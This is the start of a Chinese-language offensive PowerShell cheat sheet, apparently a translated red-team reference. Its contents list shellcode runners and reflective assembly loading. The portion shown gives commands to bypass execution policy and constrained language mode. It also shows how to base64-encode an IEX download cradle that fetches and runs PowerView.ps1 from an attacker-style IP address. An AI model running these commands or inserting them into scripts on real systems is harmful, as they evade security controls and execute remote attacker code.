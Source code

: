 # PowerShell

## 概述

- [PowerShell](#powershell)
  - [概述](#summary)
  - [执行策略](#execution-policy)
  - [编码命令](#encoded-commands)
  - [受限模式](#constrained-mode)
  - [编码命令](#encoded-commands)
  - [下载文件](#download-file)
  - [加载PowerShell脚本](#load-powershell-scripts)
  - [反射式加载C#程序集](#load-c-assembly-reflectively)
  - [使用反射通过委托函数调用Win API](#call-win-api-using-delegate-functions-with-reflection)
    - [解析地址函数](#resolve-address-functions)
    - [委托类型反射](#delegatetype-reflection)
    - [带有简单Shellcode运行器的示例](#example-with-a-simple-shellcode-runner)
  - [安全字符串转换为纯文本](#secure-string-to-plaintext)
  - [参考资料](#references)

## 执行策略

```ps1
powershell -EncodedCommand $encodedCommand
powershell -ep bypass ./PowerView.ps1

# 更改执行策略
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-ExecutionPolicy Bypass -Scope Process
```

## 受限模式

```ps1
# 检查我们是否处于受限模式
# 值可以是：FullLanguage 或 ConstrainedLanguage
$ExecutionContext.SessionState.LanguageMode

## 绕过
powershell -version 2
```

## 编码命令

* Windows

  ```ps1
  $command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")'
  $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
  $encodedCommand = [Convert]::ToBase64String($bytes)
  ```
